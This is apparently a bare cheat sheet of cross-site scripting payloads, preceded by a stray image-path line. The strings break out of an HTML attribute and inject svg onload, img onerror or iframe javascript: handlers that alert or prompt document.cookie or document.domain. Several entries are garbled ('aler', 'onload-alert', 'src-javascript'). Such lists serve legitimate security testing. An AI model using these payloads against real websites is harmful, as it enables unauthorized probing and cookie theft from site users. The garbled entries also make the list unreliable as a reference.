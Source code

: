 "><svg onload=alert(document.cookie)>
  
"><svg onload=alert(document.domain)>
  
"><img src="x" onerror="alert(document.cookie)">
  
"><img src=x onerror=aler(document.cookie)>
  
"><img src=x onerror=alert(1)>
  
"><svg/onload-alert(document.cookie)>
  
"><iframe src=javascript:prompt(document.cookie)>
  
tes/><iframe src-javascript:prompt(document.cookie)>
